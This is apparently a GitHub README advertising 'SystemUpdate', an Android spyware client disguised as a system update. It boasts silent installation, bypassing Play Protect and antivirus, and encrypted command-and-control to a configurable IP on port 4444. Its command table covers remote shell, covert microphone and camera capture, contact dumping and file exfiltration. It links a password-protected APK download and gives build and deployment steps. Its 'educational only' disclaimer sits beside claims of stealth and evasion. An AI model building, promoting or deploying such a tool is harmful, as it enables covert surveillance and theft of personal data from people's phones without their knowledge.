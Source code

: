# 📱 SystemUpdate – Advanced Android Stealth Background Client (Level 2 Release)

> ⚠️ **DISCLAIMER:**  
> This project is for **educational and security research purposes only**.  
> Do **not** use it on devices you do not own or have explicit permission to test.  
> Misuse may violate laws and is strictly prohibited.

---

## 🔥 Level 3 Highlights (August 2025 Release)

- ✅ Persistent foreground service with stealthy "System Update" disguise  
- 🔐 AES-128 encrypted TCP communication with secure reconnection logic  
- 🛠 Remote shell command execution with live output  
- 🎙 Audio recording (with duration or manual stop)  
- 📷 Photo capture using rear camera  
- 📂 File download (chunked + encrypted) and upload via base64  
- 📁 Storage enumeration from any directory  
- 📞 Contact list extraction  
- 🧾 App listing, network info, processes, and system props  
- 🎞 Media listing (video, image, audio)  
- 📜 Built-in help command and full graceful shutdown logic  
- 🧱 Undetected by Play Protect with realistic install vector  
- 💣 **No known AV flags beyond 1–2 minor detections**

---

## 🎬 Demo – Silent Installation on Android 15
![Demo](./demo.gif)
> 📲 APK installs silently on Android 15 (August 2025 patch)  
> Appears as "System Update" with no permission prompts shown to user.  
> Bypasses Play Protect and runs persistently after install.

---
## 📥 Download
> 🔐 Encrypted demo ZIP (APK + media) hosted on Mega:
**[📦 Download from MEGA](https://mega.nz/file/XAN0XbCA#rlk6roGkZ-vHsCohVb2aYOJYtED6xb_aZBfHGoiDm7k)**  
**Password:** `1234`
>
---
## 🧪  VirusTotal Scan Results
- Flagged by **only 2 engines**:
  - `Google` → *Android:Agent-GEN*
  - `IKARUS` → *Trojan.AndroidOS.Agent*
- ✅ **Google Play Protect** allows install and execution.
---
## 🧩 Features & Supported Commands

| Category         | Command                     | Description |
|------------------|------------------------------|-------------|
| 🔍 Recon          | `device_info`                | Get manufacturer, model, SDK version |
|                  | `list_apps`                  | List installed apps |
|                  | `network_info`               | Show interfaces and routes |
|                  | `running_processes`          | List all running processes |
|                  | `system_properties`          | Dump `getprop` output |
| 🗂 Storage        | `enum_storage [path]`        | Recursively walk through storage |
|                  | `listfiles`                  | List `/storage/emulated/0` |
| 🎞 Media         | `medialist`                  | List all media via `MediaStore` |
| 📥 File Access   | `download [path]`            | Download file in encrypted chunks |
|                  | `upload [path] [base64]`     | Upload file by sending base64 |
| 🛠 Shell         | `shell [cmd]`                | Run any Linux command |
| 🔊 Audio         | `record_audio_start [sec]`   | Record mic for N seconds |
|                  | `record_audio_stop`          | Stop recording early |
| 📷 Camera        | `capture_photo`              | Take photo using rear camera |
| 🧾 Contacts      | `contacts`                   | Dump all contact names + numbers |
| 📸 Screenshots   | `capture_screenshot`         | Not implemented (stub) |
| 🎥 Video         | `record_video_start [sec]`   | Not implemented (stub) |
|                  | `record_video_stop`          | Not implemented (stub) |
| ❓ Help          | `help`                       | Show full command list |
| ❌ Exit          | `exit`                       | Shutdown service gracefully |

---
## 🛠 Setup Instructions
1. **Clone this repo**
2. **Edit your connection details**
   Open `PayloadService.kt` and edit:
   ```kotlin
   private val AES_KEY = "A1B2C3D4E5F6G7H8" // 16 bytes key
   private val AES_IV  = "H8G7F6E5D4C3B2A1" // 16 bytes IV
   private val C2_IP   = "10.23.119.57"
   private val C2_PORT = 4444
   '''
---
3. **Download Codes from Mega**
Open in Android Studio
Use Android 10–15+ build target
Sign and export APK
4. **INSTALL_APK**
Use adb install or physical device install
Allow permissions if requested (on older Androids)
5. **Run Server**
Start your TCP listener/server using matching key/IP
Commands can now be issued from server side

---
## 🛠 Educational Purpose Only

SystemUpdate is a sandboxed example for:
Android foreground services
Encrypted socket backchannels
Audio capture, file IO, and system command execution
It is not obfuscated, not polymorphic, and not designed to evade detection long-term.
Use this project to understand, experiment, and learn — not harm.

---
## 🛠 License

This project is licensed under the GNU GPL v3 license.
You're free to use, modify, and redistribute,
but all derived works must remain open-source and preserve the license.
See LICENSE

---
## 🤝 Credits
Made with ♥ for research, reverse engineering, and mobile development training.
